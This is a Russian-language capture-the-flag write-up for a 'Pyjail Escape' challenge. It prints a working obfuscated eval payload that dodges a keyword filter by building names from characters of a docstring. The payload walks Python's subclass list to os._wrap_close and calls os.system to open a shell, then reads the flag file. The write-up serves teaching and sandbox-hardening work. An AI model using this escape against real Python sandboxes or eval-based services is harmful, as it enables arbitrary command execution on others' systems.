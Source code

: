# Pyjail Escape (101 points, 67 solves)

> Python leave you must, to be master real!

Данный челлендж является продолжением [Pyjail ATricks](../Pyjail%20ATricks), поэтому я не буду повторять некоторые 
моменты.

Что же, из описания очевидно, что нам нужно как-то выйти из python тюрьмы. К этому моменту у меня уже было достаточно
знаний из изучения подобных задач. Очевидные попытки обратиться к `import`, `__import__`, `__builtins__` и подобным не
увенчались успехом. Тогда я дошёл до вывода всех доступных классов:

```python
>>> a = 1
# вводим 'a.__class__.__base__.__subclasses__()'
>>> a = eval("a.__class__.__"+eval("a.__doc__[27]")+"ase__.__s"+eval("a.__doc__[111]+a.__doc__[27]")+"classes__()")
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, 
<class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, 
<class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, 
<class 'dict_items'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, 
<class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>,
<class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, 
<class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>, 
<class 'mappingproxy'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'wrapper_descriptor'>, 
<class 'method-wrapper'>, <class 'ellipsis'>, <class 'member_descriptor'>, <class 'types.SimpleNamespace'>, 
<class 'PyCapsule'>, <class 'longrange_iterator'>, <class 'cell'>, <class 'instancemethod'>, 
<class 'classmethod_descriptor'>, <class 'method_descriptor'>, <class 'callable_iterator'>, <class 'iterator'>, 
<class 'coroutine'>, <class 'coroutine_wrapper'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, 
<class 'formatteriterator'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class 'moduledef'>, <class 'module'>, 
<class 'BaseException'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, 
<class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib._installed_safely'>, 
<class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class 'classmethod'>, 
<class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, 
<class '_thread._localdummy'>, <class '_thread._local'>, <class '_thread.lock'>, <class '_thread.RLock'>, 
<class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, 
<class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, 
<class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, 
<class '_frozen_importlib_external.FileFinder'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, 
<class '_io.IncrementalNewlineDecoder'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, 
<class 'zipimport.zipimporter'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, 
<class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, 
<class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class 'abc.ABC'>, 
<class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, 
<class 'async_generator'>, <class 'collections.abc.Iterable'>, <class 'bytes_iterator'>, <class 'bytearray_iterator'>, 
<class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'dict_itemiterator'>, <class 'list_iterator'>, 
<class 'list_reverseiterator'>, <class 'range_iterator'>, <class 'set_iterator'>, <class 'str_iterator'>, 
<class 'tuple_iterator'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, 
<class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, 
<class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>]
```

Из интересных замечаем `<class 'os._wrap_close'>`. Мы можем воспользоваться данным классом, чтобы обратиться к другим
функциям из модуля `os`, а если конкретнее, то к `system`. Делается это так (117 — индекс `<class 'os._wrap_close'>`):

```python
>>> a = 1
# 'a.__class__.__base__.__subclasses__()[117].__init__.__globals__["system"]("sh")'
>>> a = eval('eval("a.__class__.__"+eval("a.__doc__[27]")+"ase__.__s"+eval("a.__doc__[111]+a.__doc__[27]")+"classes__()")[117].__init__.__glo'+eval("a.__doc__[27]")+'als__["s'+eval("a.__doc__[312]")+'ste'+eval("a.__doc__[112]")+'"]("s'+eval("a.__doc__[270]")+'")')
# тут мы уже выбрались из тюрьмы
$ ls
LOS7Z9XYZU8YS89Q24PPHMMQFQ3Y7RIE.txt pyjail.py ynetd
$ cat *.txt
ALLES{th1s_w4s_a_r34l_3sc4pe}
```

Флаг наш!

*Примечание:* конечно же, я не удержался и прочитал [pyjail.py](../pyjail.py), ибо мне было интересно, как всё было 
устроено. Выкладываю этот файл для всех любопытных. 

Кстати, решив это задание, мы "бесплатно" получаем решение предыдущего. Меня удивил тот факт, что были люди, решившие это задание,
но не справившиеся с предыдущим. А ведь им всего лишь нужно было прочитать pyjail.py...